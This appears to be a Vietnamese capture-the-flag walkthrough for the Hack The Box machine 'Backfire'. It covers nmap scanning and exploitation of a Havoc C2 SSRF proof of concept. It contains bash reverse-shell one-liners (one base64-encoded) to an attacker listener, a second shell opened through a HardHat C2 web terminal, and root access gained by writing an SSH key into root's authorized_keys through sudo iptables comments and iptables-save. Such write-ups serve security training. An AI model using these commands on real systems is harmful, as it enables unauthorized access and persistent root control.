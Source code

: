 <p align="center"><img src="image/image.png" /></p>

# Backfire Hackthebox
## Nmap, 
### Nmap
```
sudo nmap -sCV -nP -vv -oA nmap/output backfire.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
PORT     STATE    SERVICE  REASON              VERSION
22/tcp   open     ssh      syn-ack ttl 63      OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 7d:6b:ba:b6:25:48:77:ac:3a:a2:ef:ae:f5:1d:98:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuxaL9aCVxiQGLRxQPezW3dkgouskvb/BcBJR16VYjHElq7F8C2ByzUTNr0OMeiwft8X5vJaD9GBqoEul4D1QE=
|   256 be:f3:27:9e:c6:d6:29:27:7b:98:18:91:4e:97:25:99 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2oT7Hn4aUiSdg4vO9rJIbVSVKcOVKozd838ZStpwj8
443/tcp  open     ssl/http syn-ack ttl 63      nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: 404 Not Found
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=DEBUG INC/stateOrProvinceName=Colorado/countryName=US/streetAddress=/postalCode=1814/localityName=Denver
| Subject Alternative Name: IP Address:127.0.0.1
| Issuer: commonName=127.0.0.1/organizationName=DEBUG INC/stateOrProvinceName=Colorado/countryName=US/streetAddress=/postalCode=1814/localityName=Denver
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-28T03:23:57
| Not valid after:  2028-05-27T03:23:57
| MD5:   5305:d8e4:8ace:ee35:c76f:4271:d38c:722e
| SHA-1: f6c4:d719:ca58:4a16:db87:9c90:19a5:6a22:4e6e:211d
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIRAM2WYXSU0aNwndKTFSjtdPAwDQYJKoZIhvcNAQELBQAw
| czELMAkGA1UEBhMCVVMxETAPBgNVBAgTCENvbG9yYWRvMQ8wDQYDVQQHEwZEZW52
| ZXIxCTAHBgNVBAkTADENMAsGA1UEERMEMTgxNDESMBAGA1UEChMJREVCVUcgSU5D
| MRIwEAYDVQQDEwkxMjcuMC4wLjEwHhcNMjUwNTI4MDMyMzU3WhcNMjgwNTI3MDMy
| MzU3WjBzMQswCQYDVQQGEwJVUzERMA8GA1UECBMIQ29sb3JhZG8xDzANBgNVBAcT
| BkRlbnZlcjEJMAcGA1UECRMAMQ0wCwYDVQQREwQxODE0MRIwEAYDVQQKEwlERUJV
| RyBJTkMxEjAQBgNVBAMTCTEyNy4wLjAuMTCCASIwDQYJKoZIhvcNAQEBBQADggEP
| ADCCAQoCggEBAJyIA3Lpt4co3l6cLYMbjxIp+x2s6mPpkkkLFvwe8o2yEl90GDHD
| rt9g22Ny6J+fwl7coqikn9e0qs+El9AGgFQjtW8ttI5/NThO4xaBdlJzlcn7PsCj
| SDnxhfAJ/9W0cGvUPZBeuHjc2iHZzjEuMGgu5yT8MlTWysYH+O7ZIU1P3rAhLKR5
| RHp0eIEjHSdusZO9wSaHON7P2KGGaSOclzY0Vm2TZ0vltlmJzfQWbE9wRcxOiB7Y
| qxiCP+09FGXsTF8iY+amcIoUlec/GnBGDAmEAUmcgo59cEyNjQsop/EqPwaSXmQd
| JWr7NcpIwa4NILpYfUjR/EJDsO24EORQXfsCAwEAAaNyMHAwDgYDVR0PAQH/BAQD
| AgKkMB0GA1UdJQQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAPBgNVHRMBAf8EBTAD
| AQH/MB0GA1UdDgQWBBRHDR2oomhZpgrA9BITkWKag2aj9TAPBgNVHREECDAGhwR/
| AAABMA0GCSqGSIb3DQEBCwUAA4IBAQCOVkPyBAP2fHAwNZy5r4l4ydSmIALaMNYY
| ExHPrhwgqJvwo55ITnQiETVnx0uspGUDo4VH5HmP6xthPyY4F9eantaAIt4twPla
| K5NBjrKZldnYLRRncyB6iuTpTz4fY7dHMXgM5RjHigwfnx2g7dVPn7uL4l1Qfn7K
| hNuDPHYj0ayqgw6DLxDhzVEV6TKR6fojQvCcfI1y0AX2gtC6FdK6wlxjpzIIlCFQ
| cOFZQSRySfySIK9mvfKIqRzVEoVuo/v/YDO/lYmDiDPoOzilI8PxlhQ0prv+A2WU
| AkD7l8ZKnqxh5biFzRB5PUXg+j4LZERZBkgQKacgt9BDm32vnN7L
|_-----END CERTIFICATE-----
5000/tcp filtered upnp     port-unreach ttl 63
8000/tcp open     http     syn-ack ttl 63      nginx 1.22.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.22.1
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1559  17-Dec-2024 12:31  disable_tls.patch
| 875   17-Dec-2024 12:34  havoc.yaotl
|_
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

### Mở trang backfire:443
<p align="center"><img src="image/image1.png" /></p>
Thấy có header `X-Havoc` 

### Mở trang backfire:8000
<p align="center"><img src="image/image2.png" /></p>
tải về và kiểm tra

### Khai thác Havoc-C2-SSRF
Tham khảo PoC [link](https://github.com/chebuya/Havoc-C2-SSRF-poc) sau

#### Tạo môi trường ảo bằng python
```
python3 -m venv .venv
```
#### Chạy file python exploit.py đã modify
Tạo mã reverse shell trên base64
```
echo -n 'bash -i  >& /dev/tcp/10.10.14.54/9001  0>&1' | base64 -w 
0
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTQvOTAwMSAgMD4mMQ==
</pre>
Lắng nghe cổng 9001 và chạy file `exploit.py`
```
python3 exploit.py -i 127.0.0.1 -p 40056 -t https://backfire.htb -c "echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTQvOTAwMSAgMD4mMQ== | base64 -d | bash"
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.49] 39250
bash: cannot set terminal process group (20181): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$
</pre>
### Khai thác HardheadC2
 Dựng docker-compose [git](https://github.com/DragoQCC/CrucibleC2.git) vào trang admin để có cookie session

```
 docker-compose up -d
```
#### Sau khi có session cookie thực hiện forward port ra ngoài vẫn giữ session cookie đã tạo cho ở docker compose
```
https://github.com/DragoQCC/CrucibleC2.git
```
Sau đó đăng ki người dùng với user và role operator
#### Login vào và vảo url https://127.0.0.1:7096/ImplantInteract
thực hiện chạy terminal với cú pháp 
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/9001 0>&1'
```
#### Thực hiện add public key
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.49] 36374
bash: cannot set terminal process group (10989): Inappropriate ioctl for device
bash: no job control in this shell
sergej@backfire:~/HardHatC2/HardHatC2Client$ cd ~/.ssh
</pre>
#### Ssh user sergej
```
ssh -i sonpt sergej@backfire.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
sergej@backfire:~$ 
</pre>
Kiểm tra thấy iptables có quyền root
#### Chạy lệnh sau để add key
```
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN9VBilDWwPuZYt26kWWS0VU1IDJvSkYOJqpW0p6MQ06 sonpt@meeyland.com\n'
sudo iptables-save -f /root/.ssh/authorized_keys
```
#### ssh với root
```
ssh -i sonpt root@backfire.htb
Warning: Identity file sonpt not accessible: No such file or directory.
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~# cat root.txt
```

